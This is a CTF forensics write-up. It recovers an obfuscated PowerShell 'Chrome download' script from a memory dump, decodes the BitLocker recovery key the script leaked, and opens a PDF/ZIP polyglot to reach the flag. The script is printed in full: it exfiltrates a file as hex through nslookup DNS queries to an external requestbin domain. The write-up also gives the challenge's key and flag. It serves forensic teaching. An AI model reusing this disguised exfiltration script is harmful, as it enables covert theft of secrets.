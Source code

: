 # Trust Issues

We have the memory dump of Mark's PC and a file ```confidential.pdf``` which was in his computer. We can either start with analysing the memory dump or the suspicious pdf.

## Analysing the memory dump

```bash
vol.py -f trustissues.raw imageinfo
Volatility Foundation Volatility Framework 2.6
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/deathblade/ctf/DNS/trustissues.raw)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf800029f3130L
          Number of Processors : 4
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff800029f5000L
                KPCR for CPU 1 : 0xfffff88002e40000L
                KPCR for CPU 2 : 0xfffff88002ebf000L
                KPCR for CPU 3 : 0xfffff88002f3e000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2020-12-26 10:59:24 UTC+0000
     Image local date and time : 2020-12-26 02:59:24 -0800
```

Now we have a profile.

Let us do another usual command:

```bash
vol.py -f trustissues.raw --profile=Win7SP1x64 filescan |grep Desktop
```

This should give a long list of files. In this we can find the directory ```Setup files given by sysadmin``` in which there are some setup scripts and installer files. We also notice a ```ChromeDownload.ps1``` which is odd cause why does downloading chrome need a powershell script?

So let us dump this powershell script and see what it contains:

```bash
vol.py -f trustissues.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000007d845a10 -D .
cat file.None.0xfffffa8001d33ca0.dat
```

We find the following script:

```powershell
.("{0}{1}"-f 'ech','o'  ) 'Downloading Chrome......'

  & (  "{3}{4}{1}{0}{2}"-f 'eque','R','st','I','nvoke-Web' ) https://dl.google.com/tag/s/appguid%3D%7B8A69D345-D564-463C-AFF1-A69D9E530F96%7D%26iid%3D%7B61A54C60-6972-227A-921D-DAD2B3C34001%7D%26lang%3Den%26browser%3D5%26usagestats%3D1%26appname%3DGoogle%2520Chrome%26needsadmin%3Dprefers%26ap%3Dx64-stable-statsdef_1%26brand%3DONGR%26installdataindex%3Ddefaultbrowser/update2/installers/ChromeSetup.exe -OutFile ChromeSetup.exe

${D`UMp}    =     & ( "{1}{0}{2}"-f 't-','Forma','Hex') -Path 'D:\Bitlo*'
${d`NS}   =    '.7965708720dcbe1fbd5b.d.requestbin.net'

for( ${i}     =     0  ;    ${D`UmP}[${I}];    ${I}++ )
{
    ${h`eX}    =  ${d`UMp}[${i}].ToString(   )
    ${h`EX}   = ${H`Ex}.replace(  ' ','' )
    if( ${I} -lt (${du`MP}.length - 1) )
    {
         ${H`eX}   =   ${h`eX}.Substring(   8,32  )
    }
    else
    {
        ${l`En`GTH}  =     (   (  ${H`ex}.length - 8  )*2  )/3
        ${H`eX}   =   ${h`eX}.Substring(   8,${l`EngtH}  )
    }
      . (  "{1}{2}{0}" -f 'up','nslo','ok') ( ${H`eX}     + ${d`Ns}  ) *>${N`ULl}
}

.("{1}{0}"-f'cho','e'  ) 'Downloaded Chrome'
```

We see an obfuscated script which does hella lot more than just download chrome. On deobfuscating it, we can see that it is converting a file at ```D:\Bitlo*``` into a hexdump and sending it as DNS requests using ```nslookup``` command part by part. This is some sort of a (n00bish) DNS exfiltration attack, performed by the sysadmin who gave these files. (You could have also easily been tipped off by the ```nslookup.exe``` processes in pslist or pstree)

We are also not able to dump nor scan the files in ```D:\```. One way to get the files would be to carve the packets out of the memory dump. You can either use caploader in Windows or you could find third party plugins for volatility such as ethscan or the one used [here](https://github.com/Memoryforensics/carve_packets).

```bash
vol.py --plugins=carve_packets -f trustissues.raw --profile=Win7SP1x64 networkpackets -D .
```

The packets are dumped at ```packets.pcap```. Let us open it in wireshark:

![Wireshark](https://imgur.com/7lFkFwh.png)

We can see that there is a pattern of query responses of DNS TXID = 2 followed by a Server failure (as it does not correspond to any IP; but note that it is enough for the data to reach the attacker's name server as a query) of TXID = 3 and a No such name response of TXID = 1. Hence for filtering out the hex data, ```dns.id == 2``` is a sufficient filter in our case.

Let us use tshark for this as it is easier to work with in command line:

```bash
 tshark -Y "dns.id == 2" -T fields -e "dns.qry.name"  -r packets.pcap | cut -d '.' -f1 |xxd -r -p
tLocker protected drive.

To verify that this is the correct recovery key compare the identification with what is presented on the recovery screen.

Recovery key identification: ABC7C7A1-9BEE-4F
Full recovery key identification: ABC7C7A1-9BEE-4F1C-90F7-5AB6D66CD465

BitLocker Recovery Key:
299981-297792-361471-261789-114642-633501-520685-433719

��BitLocker Drive Encryption Recovery Key

The recovery key is used to recover the data on a Bi
```

Thus, we have obtained a BitLocker recovery key (packets are disarranged here) which can be used to unlock a drive.

## Analysing the PDF

It is strange that a 5 page pdf has a size of roughly 81 MB. Let us see what is in this:

```bash
 binwalk confidential.pdf 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
42            0x2A            Zip archive data, at least v2.0 to extract, compressed size: 939559, uncompressed size: 939559, name: confidential.pdf
939647        0xE567F         Zip archive data, at least v2.0 to extract, compressed size: 80507861, uncompressed size: 83886592, name: confidential.vhd
81447678      0x4DACAFE       End of Zip archive, footer length: 22

```

We got a ZIP PDF polyglot. On unzipping the PDF, we get the VHD file.

```bash
fdisk -l confidential.vhd
Disk confidential.vhd: 80 MiB, 83886592 bytes, 163841 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x6e388fd9

Device            Boot Start    End Sectors Size Id Type
confidential.vhd1        128 157823  157696  77M  7 HPFS/NTFS/exFAT
```

We have the mountable drive starting at offset ```$((512*128)) = 65536```.

```bash
dd if=confidential.vhd of=mountable.dd bs=65536 skip=1
1279+1 records in
1279+1 records out
83821056 bytes (84 MB, 80 MiB) copied, 0.128413 s, 653 MB/s

file mountable.dd
mountable.dd: DOS/MBR boot sector, code offset 0x58+2, OEM-ID "-FVE-FS-", sectors/cluster 8, reserved sectors 0, Media descriptor 0xf8, sectors/track 63, heads 255, hidden sectors 128, FAT (32 bit), sectors/FAT 8160, serial number 0x0, unlabeled; NTFS, sectors/track 63, physical drive 0x1fe0, $MFT start cluster 393217, serial number 02020454d414e204f, checksum 0x41462020
```

This is a BitLocker encrypted drive as indicated by the ```-FVE-FS-``` header. Mounting this will require ```libbde-utils```.

## Getting the flag

```bash
mkdir mountpoint

bdemount -r 299981-297792-361471-261789-114642-633501-520685-433719 mountable.dd mountpoint/

cp mountpoint/bde1 .

chmod 777 bde1

mkdir new_mountpoint

mount bde1 new_mountpoint

ls new_mountpoint/
'System Volume Information'  'Technical Business Document.docx'   flag.txt

cat new_mountpoint/flag.txt
p_ctf{1_wi$h_y0u_DNSee_th3_kEy}
```
